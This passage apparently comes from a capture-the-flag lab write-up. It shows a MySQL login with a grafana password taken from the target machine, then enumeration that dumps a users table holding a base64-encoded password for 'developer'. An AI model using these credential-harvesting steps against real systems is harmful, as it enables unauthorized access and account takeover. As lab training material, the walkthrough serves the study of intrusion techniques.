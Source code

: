 ```
# mysql -h 10.10.11.183 -u grafana -p'dontStandSoCloseToMe63221!'                                                                                                                                                                      
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 65
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

```

Basic enumeration leads to password for user developer that is base64 encoded 

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.054 sec)

MySQL [(none)]> use whackywidget
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.052 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.059 sec)

```
